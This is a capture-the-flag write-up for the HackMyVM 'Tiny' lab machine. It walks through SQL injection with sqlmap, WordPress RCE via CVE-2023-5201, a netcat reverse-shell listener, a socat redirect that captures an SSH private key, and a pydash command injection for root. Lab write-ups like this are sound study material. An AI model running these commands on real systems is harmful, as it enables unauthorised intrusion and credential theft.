 ```yaml
---
title: Tiny Writeup
date: 2024-02-11
categories:
  - Writeups
tags:
  - Sql_injection
  - Wordpress
  - Privilege_Escalation
  - HackMyVm
---
```


# Arp-scan 

 Detecting the IP of the machine

```bash
192.168.1.97	08:00:27:ee:8a:18	PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
root@kali ~ [SIGINT]# nmap  -sC 192.168.1.97 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-10 06:17 EST
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 91.04% done; ETC: 06:17 (0:00:00 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.76% done; ETC: 06:17 (0:00:00 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.44% done; ETC: 06:17 (0:00:00 remaining)
Nmap scan report for tiny (192.168.1.97)
Host is up (0.0012s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 dd:83:da:cb:45:d3:a8:ea:c6:be:19:03:45:76:43:8c (ECDSA)
|_  256 e5:5f:7f:25:aa:c0:18:04:c4:46:98:b3:5d:a5:2b:48 (ED25519)
80/tcp   open  http
|_http-generator: WordPress 6.3.1
|_http-title: Blog
| http-robots.txt: 15 disallowed entries 
| /wp-admin/ /cgi-bin/ /private/ /temp/ /backup/ /old/ 
| /test/ /dev/ / /misc/ /downloads/ /doc/ /documents/ 
|_/restricted/ /confidential/
8888/tcp open  sun-answerbook
MAC Address: 08:00:27:EE:8A:18 (Oracle VirtualBox virtual NIC)
```

We can see that 80, 22 and 8888 ports are opened

# Add Hosts

![](/assets/img/tiny/website.png)

We are able to see that the website is loading contents in domain tiny.hmv, and hence we need to add the domain into /etc/hosts , so that it can resolve properly (virtual hosting).

```shell
echo "192.168.1.97  tiny.hmv" >> /etc/hosts
```

# Url Enumeration

As usual, firstly, we will check whether there is robots.txt

From robots.txt:

```shell
# Additional sitemap references
Sitemap: http://tiny.hmv/sitemap.xml
Sitemap: http://wish.tiny.hmv/sitemap.xml
```

We are able to find that there is a subdomain which is called "wish.tiny.hmw"

# Sql injection

Check whether the website is vulnerable to sqli (sql injection)

![](/assets/img/tiny/burp.png)

It appears that Sqli is existed on the website and there we use sqlmap to enumerate the user and the password in the database:

```shell
sqlmap -r req.req --batch -D wish_db -T admin -C id,password,username --dump 
```

Results:

```shell
Database: wish_db                                                         
Table: admin
[1 entry]
+----+--------------------------------------------+----------+
| id | password                                   | username |
+----+--------------------------------------------+----------+
| 1  | 8df4387dd1598d4dcf237f9443028cec           | umeko    |
+----+--------------------------------------------+----------+

```

*Not going to show the decrypted password, as the content of the decrypted password is offensive*

# Shell 

Logging into the website and using wpscan, we can detect that the website is vulnerable to  [CVE-2023-5201](https://github.com/advisories/GHSA-52wg-h24c-3wgr), which we can do Remote Code Execution.

![](/assets/img/tiny/wordpress_cve.png)

We listen to port 1234 by using nc (netcat) and get the shell

```bash
nc -nlvp 1234
```

Upgrading simple shells to fully interactive TTYs

```shell
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm
```

Referring to the port scanning result earlier, we notice that port 8888 is opened as well and yet to be used, hence we can make a smart assumption.

```shell
ss -tulnp
ps -elf 
```

![](/assets/img/tiny/ps.png)

![](/assets/img/tiny/ss.png)

We can see that TinyProxy is running

By accessing  /etc/tinyproxy/tinyproxy.conf, we can the configurations

```shell
cat /etc/tinyproxy/tinyproxy.conf | grep -v "#"
```

![](/assets/img/tiny/config.png)

From that, we can see that port 1111 is opened, and all traffic is being directed to "localhost:1111"

If all the traffics is being directed to port 1111, we can make an assumption and listen to port 1111 by using "nc", from the response we can see that "Get http://127.0.0.1:8000/id_rsa".

Hence we can do a redirection of traffic from port 1111 to 8000 by using "socat" 

```
socat -v tcp-listen:1111;reuseaddr tcp:localhost:8000
```

and hence we are able to get the private key, saving and naming it as "id_rsa"

![](/assets/img/tiny/private_key.png)

Granting "id_rsa" with 600 permission and we connect user vic by using "id_rsa" via ssh

```shell
chmod 600 id_rsa
ssh -i id_rsa vic@127.0.0.1
```

# Root Access

 After accessing user "vic", we are able to get our first flag.

![](/assets/img/tiny/user_flag.png)

By doing sudo -l, we can see that we can use sudo command to execute /opt/car.py

![](/assets/img/tiny/permissions.png)

We see what it is contained in "car.py" file and we can see "pydash lib", which we can find a Command Injection vulnerability  

```shell
cat car.py
```

![](/assets/img/tiny/car_py_content.png)

By doing this, we are able to get Root Permission and get the flag

![](/assets/img/tiny/privilege_escalation.png)

